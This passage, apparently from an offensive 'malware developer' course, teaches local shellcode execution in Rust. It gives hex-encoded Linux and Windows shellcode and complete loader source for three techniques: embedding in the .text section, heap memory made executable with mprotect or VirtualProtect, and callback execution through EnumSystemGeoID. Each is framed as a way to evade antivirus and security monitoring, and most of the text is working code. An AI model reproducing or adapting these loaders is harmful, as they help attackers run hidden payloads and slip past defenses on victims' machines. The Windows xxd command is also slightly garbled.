



Local shellcode execution, where the term "shellcode" refers to a small piece of independent code, in the form of an opcode suite, specifically designed to be injected and executed in the memory of a running process. Unlike traditional software, which is designed to perform specific tasks, shellcode is used for malicious purposes, exploiting a system's vulnerabilities to gain unauthorized access or control.
The term "local" in local shellcode execution means that the code is intended to run on the same process itself, as opposed to remote execution where an attacker can deploy the code on another process, also known as code injection and which we'll see in the "Evasion" part of the course. Local shellcode execution involves exploiting the capabilities provided by the operating system, enabling an attacker to inject his own code directly into the process's memory space.
So, for us malware developers, shellcode execution in our programs can help us to trick security solutions and hide malicious code. This type of shellcode-executing program is called a "loader". To do this, we need two things: firstly, a shellcode PIC (for "Position Independent Code") to execute, of course, and secondly, a region of memory with read, write and, above all, execute permissions.
In this part of the course, we'll look at the different techniques for executing shellcode.
We'll use the following shellcodes as examples:
echo '6a6848b82f62696e2f2f2f73504889e7687269010181342401010131f6566a085e4801e6564889e631d26a3b580f05' | xxd -r -p > shellcode_linux.bin
$ echo '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f0589c24801da4531c941b1884c01ca448b024901d8418b70204801de4831c949b947657450726f634148ffc18b048e4801d84c390875f2418b70244801de668b0c4e418b701c4801de8b048e4801d84889c748b801010101010101015048b856686f4479646201483104244889e231f665488b4e60488b4918488b712048ad489648ad488b48204883ec30ffd74883c4384889c648b801010101010101015048b8626c652f64796401483104244889e14883ec30ffd64883c438ebfe' | xxd - r -p > shellcode_windows. bin
The ".text" section is already executable by default, as this is the section that contains your binary code. This seems an appropriate place to execute shellcode, so let's see how we can place and execute shellcode in this section.
Here's the code structure:
.
├── Cargo.lock
├── Cargo.toml
└── src
├── main.rs
├── shellcode_linux.bin
└── shellcode_windows.bin
Source:
# src/main.rs
use std::mem;
#[no_mangle]
#[link_section = ".text"]
#[cfg(target_os = "linux")]
static SHELLCODE: [u8; 48] = *include_bytes!("shellcode_linux.bin");
#[no_mangle]
#[link_section = ".text"]
#[cfg(target_os = "windows")]
static SHELLCODE: [u8; 217] = *include_bytes!("shellcode_windows.bin");
fn main() {
let exec_shellcode: extern "C" fn() -> ! =
unsafe { mem::transmute(&SHELLCODE as *const _ as *const ()) };
exec_shellcode();
}
We can see here that we're using the "#[link_section = ".text"]" macro to insert our shellcode directly into the ".text" section of our binary.
We then retrieve the shellcode address from memory and convert it into a function pointer that we can call.
Here's how it works on Linux and Windows:
 
The good thing about this technique is that it's simple, cross-platform and requires no use of the operating system.
The ".text" section is not writable, so we can't use any encoder to obfuscate our shellcode. Malicious code will therefore be quickly detected by security solutions.
Executing shellcodes in dynamic allocations consists in allocating a block of memory with execution rights on the heap of our process, copying our shellcode into it, then directly calling this block of memory as if it were the code of a function.
This little trick requires calls to the operating system's APIs, so we'll divide this technique into two for Linux and Windows.
To execute shellcode in a dynamic allocation on Linux, we're going to use the "libc" module, which will enable us to interact directly with the "mprotect" system call, which will enable us to modify the permissions of a memory allocation that we're going to create using a simple instance of Rust's "Box". The aim here is to add the right to execute, which is not present by default.
We'll then retrieve the address of this allocation and convert it into a function pointer that we'll call.
.
├── Cargo.lock
├── Cargo.toml
└── src
├── main.rs
└── shellcode.bin
# src/main.rs
use libc::{mprotect, PROT_EXEC, PROT_READ};
use std::{ffi::c_void, mem};
const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");
fn main() {
let map = Box::new(SHELLCODE);
unsafe {
mprotect(
map.as_ptr() as *mut c_void,
map.len(),
PROT_READ | PROT_EXEC,
);
let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.as_ptr());
exec_shellcode();
}
}
Unfortunately, we'll be using "unsafe" code here, as we'll be using a C-interfaced function for the "mprotect" system call, as well as direct manipulation of our Box pointer.
To execute shellcode in a dynamic allocation on Windows, we'll use exactly the same technique as on Linux.
We're going to use the "windows" module, which will enable us to interact directly with the "VirtualProtect" function, which fulfills the same mission as the "mprotect" system call on Linux, allowing us to modify the permissions of a memory allocation we're going to make using a simple instance of Rust's "Box". The aim here is the same: to add the right to execute, which is not present by default.
.
├── Cargo.lock
├── Cargo.toml
└── src
├── main.rs
└── shellcode.bin
# src/main.rs
use std::{ffi::c_void, mem};
use windows::Win32::System::Memory::{VirtualProtect, PAGE_EXECUTE_READ, PAGE_PROTECTION_FLAGS};
const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");
fn main() {
let map = Box::new(SHELLCODE);
let mut old_p = PAGE_PROTECTION_FLAGS::default();
unsafe {
VirtualProtect(
map.as_ptr() as *mut c_void,
map.len(),
PAGE_EXECUTE_READ,
&mut old_p,
)
.unwrap();
let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.as_ptr());
exec_shellcode();
}
}
We have to use an "unsafe" block here too, for the same reasons as in the Linux example.
This technique is more interesting than most versions found on other resources, because firstly, we go through Rust's memory allocator instead of doing our own allocation, which is less suspicious. Secondly, at no point do we create a section with RWX permissions (read, write and execute), which is also very suspicious.
Execution via callback function The technique we're now going to use is a very interesting one for obfuscating the execution of our shellcode.
In the Windows API, there are functions that take a "callback" as argument, which are used to supply code managed by our program to an external dynamic library that we don't control.
An explanatory diagram by Microsoft summarizes how this works:

The technique we're going to use consists in giving the function pointer of our shellcode as a callback function, which will then be executed in a new thread.
Here's a list, as exhaustive as possible according to our research, of the Windows API callback functions in question:
You're free to study the Microsoft documentation for the function you want to use.
Or you can consult this Github repository, which contains sample implementations of some of these callback functions: https://github.com/aahmad097/AlternativeShellcodeExec .
We'll now develop an example with the "EnumSystemGeoID" function, based on our previous implementation of dynamic allocation:
# src/main.rs
use std::ffi::c_void;
use std::mem::transmute;
use windows::Win32::Globalization::{EnumSystemGeoID, GEO_ENUMPROC};
use windows::Win32::System::Memory::{VirtualProtect, PAGE_EXECUTE_READ, PAGE_PROTECTION_FLAGS};
const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");
fn main() {
let map = Box::new(SHELLCODE);
let mut old_p = PAGE_PROTECTION_FLAGS::default();
unsafe {
VirtualProtect(
map.as_ptr() as *mut c_void,
map.len(),
PAGE_EXECUTE_READ,
&mut old_p,
)
.unwrap();
let res = EnumSystemGeoID(
16,
0,
transmute::<*mut std::ffi::c_void, GEO_ENUMPROC>(map.as_ptr() as *mut c_void),
);
}
}
With this technique, we can execute code much more unobtrusively, as these Windows API functions are rarely monitored by security solutions.
Conclusion You now have all the tools you need to execute shellcode on your own processes. This will come in handy when you want to obfuscate pieces of code and escape static analysis by antivirus software.
As we'll see later on, this type of behavior is easily detected by EDR-based security solutions, which is why we'll be looking at how to evade detection in another part of this course.